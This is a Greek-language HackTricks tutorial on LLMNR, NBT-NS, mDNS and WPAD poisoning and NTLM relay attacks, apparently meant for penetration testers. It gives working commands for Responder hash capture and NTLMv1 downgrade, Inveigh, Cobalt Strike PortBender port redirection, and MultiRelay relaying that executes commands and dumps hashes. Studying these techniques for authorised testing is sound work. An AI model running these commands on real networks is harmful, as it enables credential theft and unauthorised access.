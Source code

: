 # Πλαστογράφηση LLMNR, NBT-NS, mDNS/DNS και WPAD και Επιθέσεις Relay

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

## Δικτυακά Πρωτόκολλα

### Πρωτόκολλα Τοπικής Ανάλυσης Ονομάτων Χρηστών
- **LLMNR, NBT-NS και mDNS**:
- Η Microsoft και άλλα λειτουργικά συστήματα χρησιμοποιούν τα LLMNR και NBT-NS για την τοπική ανάλυση ονομάτων όταν αποτυγχάνει το DNS. Αντίστοιχα, τα συστήματα της Apple και του Linux χρησιμοποιούν το mDNS.
- Αυτά τα πρωτόκολλα είναι ευάλωτα στην παρεμβολή και πλαστογράφηση λόγω της μη ελεγχόμενης, εκπομπής φύσης τους μέσω UDP.
- Το [Responder](https://github.com/lgandx/Responder) μπορεί να χρησιμοποιηθεί για να παριστάνει υπηρεσίες αποστέλλοντας πλαστές απαντήσεις σε υπολογιστές που ερωτούν αυτά τα πρωτόκολλα.
- Περισσότερες πληροφορίες σχετικά με την παραστάση υπηρεσιών χρησιμοποιώντας το Responder μπορούν να βρεθούν [εδώ](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Πρωτόκολλο Αυτόματης Ανακάλυψης Ιστού (WPAD)
- Το WPAD επιτρέπει στους περιηγητές να ανακαλύπτουν αυτόματα τις ρυθμίσεις του διακομιστή μεσολάβησης.
- Η ανακάλυψη διευκολύνεται μέσω DHCP, DNS, ή ανατροφοδότηση στα LLMNR και NBT-NS αν αποτύχει το DNS.
- Το Responder μπορεί να αυτοματοποιήσει επιθέσεις WPAD, καθοδηγώντας τους πελάτες σε κακόβουλους διακομιστές WPAD.

### Ο Responder για τη Δηλητηρίαση Πρωτοκόλλων
- Ο **Responder** είναι ένα εργαλείο που χρησιμοποιείται για τη δηλητηρίαση των ερωτημάτων LLMNR, NBT-NS και mDNS, απαντώντας εκλεκτικά βάσει τύπων ερωτημάτων, κατευθυνόμενο κυρίως σε υπηρεσίες SMB.
- Έρχεται προεγκατεστημένο στο Kali Linux, ρυθμίσιμο στο `/etc/responder/Responder.conf`.
- Ο Responder εμφανίζει τα καταγεγραμμένα hashes στην οθόνη και τα αποθηκεύει στον κατάλογο `/usr/share/responder/logs`.
- Υποστηρίζει τόσο IPv4 όσο και IPv6.
- Η έκδοση του Responder για Windows είναι διαθέσιμη [εδώ](https://github.com/lgandx/Responder-Windows).

#### Εκτέλεση του Responder
- Για να εκτελέσετε το Responder με τις προεπιλεγμένες ρυθμίσεις: `responder -I <Διεπαφή>`
- Για πιο επιθετική ανίχνευση (με πιθανές παρενέργειες): `responder -I <Διεπαφή> -P -r -v`
- Τεχνικές για την καταγραφή προκλήσεων/απαντήσεων NTLMv1 για ευκολότερη αποκρυπτογράφηση: `responder -I <Διεπαφή> --lm --disable-ess`
- Η παραστάση του WPAD μπορεί να ενεργοποιηθεί με: `responder -I <Διεπαφή> --wpad`
- Οι αιτήσεις NetBIOS μπορούν να επιλυθούν στη διεύθυνση IP του επιτιθέμενου, και μπορεί να δημιουργηθεί ένας διακομιστής εξουσιοδότησης: `responder.py -I <διεπαφή> -Pv`

### Δηλητηρίαση DHCP με το Responder
- Η πλαστογράφηση απαντήσεων DHCP μπορεί να δηλητηριάσει μόνιμα τις πληροφορίες δρομολόγησης ενός θύματος, προσφέροντας μια πιο αόρατη εναλλακτική λύση στη δηλητηρίαση ARP.
- Απαιτεί ακριβή γνώση της δικτυακής διαμόρφωσης του στόχου.
- Εκτέλεση της επίθεσης: `./Responder.py -I eth0 -Pdv`
- Αυτή η μέθοδος μπορεί να αιχμαλωτίσει αποτελεσματικά hashes NTLMv1/2, αλλά απαιτεί προσεκτική χειραγώγηση για να αποφευχθεί η διαταραχή του δικτύου.

### Καταγραφή Διαπιστευτηρίων με το Responder
- Ο Responder θα παριστάνει υπηρεσίες χρησιμοποιώντας τα παραπάνω αναφερόμενα πρωτόκολλα, καταγράφοντας διαπιστευτήρια (συνήθως πρόκληση/απάντηση NTLMv2) όταν ένας χρήστης προσπαθεί να πιστοποιηθεί εναντίον των πλαστογραφημένων υπηρεσιών.
- Μπορούν να γίνουν προσπάθειες για υποβάθμιση σε NetNTLMv1 ή απενεργοποίηση του ESS για ευκολότερη αποκρυπτογράφηση διαπιστευτηρίων.

Είναι ζωτικής σημασίας να σημειώσουμε ότι η χρήση αυτών των τεχνικών πρέπει να γίνεται νόμιμα και ηθικά, εξασφαλίζοντας την κατάλληλη εξουσιοδότηση και αποφεύγοντας τη διαταραχή ή την μη εξουσιοδοτημένη πρόσβαση. 

## Inveigh

Το Inveigh είναι ένα εργαλείο για δοκιμαστές διείσδυσης και ομάδες Red Team, σχεδιασμένο για συστήματα Windows. Προσφέρει λειτουργίες παρόμοιες με το Responder, εκτελώντας πλαστογράφηση και επιθέσεις man-in-the-middle. Το εργαλείο έχει εξελιχθεί από ένα σενάριο PowerShell σε ένα δυαδικό αρχείο C#, με τα [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) και [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) ως τις κύριες εκδόσεις. Λεπτομερείς παράμετροι και οδηγίες μπορούν να βρεθούν στο [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Το Inveigh μπορεί να λειτουργήσει μέσω PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Ή εκτελείται ως δυαδικό αρχείο C#:
```bash
Inveigh.exe
```
### Επίθεση NTLM Relay

Αυτή η επίθεση εκμεταλλεύεται τις συνεδρίες ελέγχου ταυτότητας SMB για πρόσβαση σε έναν στόχο υπολογιστή, παρέχοντας ένα κέλυφος συστήματος σε περίπτωση επιτυχίας. Βασικές προϋποθέσεις περιλαμβάνουν:
- Ο χρήστης που πιστοποιείται πρέπει να έχει πρόσβαση Διαχειριστή τοπικά στον υπολογιστή προώθησης.
- Η υπογραφή SMB πρέπει να είναι απενεργοποιημένη.

#### Προώθηση και Σήραγγα Θύρας 445

Σε περιπτώσεις όπου δεν είναι εφικτή η άμεση εισαγωγή στο δίκτυο, η κίνηση στη θύρα 445 πρέπει να προωθηθεί και να τουνελιστεί. Εργαλεία όπως το [**PortBender**](https://github.com/praetorian-inc/PortBender) βοηθούν στην ανακατεύθυνση της κίνησης στη θύρα 445 σε μια άλλη θύρα, το οποίο είναι απαραίτητο όταν η πρόσβαση Διαχειριστή είναι διαθέσιμη για τη φόρτωση οδηγών.

Ρύθμιση και λειτουργία του PortBender στο Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Άλλα Εργαλεία για Επίθεση Ανακατεύθυνσης NTLM

- **Metasploit**: Ρύθμιση με διακομιστές μεσολάβησης, τοπικές και απομακρυσμένες λεπτομέρειες του κεντρικού υπολογιστή.
- **smbrelayx**: Ένα σενάριο Python για την ανακατεύθυνση συνεδριών SMB και την εκτέλεση εντολών ή την ανάπτυξη παγίδων.
- **MultiRelay**: Ένα εργαλείο από τη σουίτα Responder για την ανακατεύθυνση συγκεκριμένων χρηστών ή όλων των χρηστών, την εκτέλεση εντολών ή την απόρριψη κατακερματισμών.

Κάθε εργαλείο μπορεί να ρυθμιστεί για λειτουργία μέσω ενός διακομιστή μεσολάβησης SOCKS εάν είναι απαραίτητο, επιτρέποντας επιθέσεις ακόμη και με έμμεση πρόσβαση στο δίκτυο.

### Λειτουργία MultiRelay

Το MultiRelay εκτελείται από τον φάκελο _**/usr/share/responder/tools**_, εστιάζοντας σε συγκεκριμένες διευθύνσεις IP ή χρήστες.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### Εξαναγκασμός Συνδέσεων NTLM

Στα Windows **μπορείτε να εξαναγκάσετε ορισμένους προνομιούχους λογαριασμούς να πιστοποιηθούν σε αυθαίρετες μηχανές**. Διαβάστε την παρακάτω σελίδα για να μάθετε πώς:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Αναφορές
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}
